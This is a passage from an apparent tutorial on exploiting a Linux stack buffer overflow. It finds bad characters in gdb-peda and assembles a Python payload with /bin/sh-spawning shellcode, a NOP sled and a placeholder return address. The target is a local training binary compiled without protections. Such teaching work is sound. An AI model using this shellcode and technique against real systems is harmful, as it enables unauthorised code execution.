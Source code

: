 
![bad chars 2](/assets/images/15/2021-10-21_17-45.png){:class="img-responsive"}          

After we have executed our payload with the bad characters and reached the breakpoint, we can look at the stack:
```bash
gdb-peda$ x/1000xb $esp + 500
```

![bad chars 3](/assets/images/15/2021-10-21_17-47.png){:class="img-responsive"}          

We see where our `\x41`'s ends, and the bad characters begins. But if we look closely at it, we will see that it starts with `\x01` instead of `\x00`. The ASCII character `\x00` is left out because it's a null byte. Then, we note this character, remove it and adjust the number of `\x41`. Run again and following the dump to find the next bad character. This process must be repeated until all characters that could interrupt the flow are removed. After that we will have the list of chars that need to be excluded from our shellcode.    

### shellcode

Let's now try to exploit the buffer overflow by adding the final part – the shellcode. Since this program is compiled without NX or stack canaries, we can write our shellcode directly on the stack and return to it.       

I'll be using my shellcode from one of my posts [about linux shellcoding](tutorial/2021/10/09/linux-shellcoding-1.html) which is spawn shell to my ubuntu machine:

![buffer overflow 8](/assets/images/12/2021-10-11_13-35.png){:class="img-responsive"}          

```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\x42\x42\x42\x42"
print padding + nop + shellcode + eip

```

In this case, my shellcode length is `25` bytes.

Often it can be useful to insert some no operation instruction (NOPs) before our shellcode begins so that it can be executed cleanly. NOPs are instructions in memory that just says look for the instructions next to me on the stack. Let us briefly summarize what we need for this:      
1. we need total `268 + 4 = 272` bytes to get `eip`.                
2. we can use additional `64` bytes of NOPs.          
3. minimum `25` bytes for our shellcode.       

![buffer overflow schema](/assets/images/15/bo-1.png){:class="img-responsive"}          

Now we can try to find out how much space we have available to insert our shellcode. For that we are going to head back into GDB and run the following command:        
